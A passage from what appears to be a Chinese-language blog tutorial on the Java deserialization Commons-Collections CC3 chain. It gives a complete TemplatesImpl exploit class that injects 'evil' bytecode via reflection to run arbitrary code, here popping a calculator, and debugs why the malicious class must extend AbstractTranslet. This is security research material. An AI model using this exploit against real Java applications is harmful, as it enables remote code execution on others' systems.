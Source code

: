 - 最终完整的 EXP 应该如下

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
// TemplatesImpl 的 EXP 编写  
public class TemplatesImplEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 templates.newTransformer();  
 }  
}
```

#### 解决报错，挖 0day 的必经之路！

- 按照道理来说，上面的 EXP 已经挺完美的了，但是在运行的时候我不但没有弹出计算器，反而还报错了。

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/Error.png)

这里报错是由于空指针报错，我们去 `TemplatesImpl` 下打断点调试一下。

我是在 393 行 `if (_bytecodes == null)` 那里打断点的。调试之后发现问题出在这儿。

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/Debug.png)

- 418 行，判断在 `defineClass()` 方法中传进去的参数 b 数组的字节码是否继承了 `ABSTRACT_TRANSLET` 这个父类，如果没有则抛出异常，所以我们需要去恶意类中继承 `ABSTRACT_TRANSLET` 这个父类。

或者我们可以将 `_auxClasse` 赋值，使其不为 null。但是如果没有继承 `ABSTRACT_TRANSLET` 这个父类，会导致 `_transletIndex` 的值为 -1，在第 426 行的判断当中跳出程序。

> 修改完毕之后，我们的弹计算器就成功了。
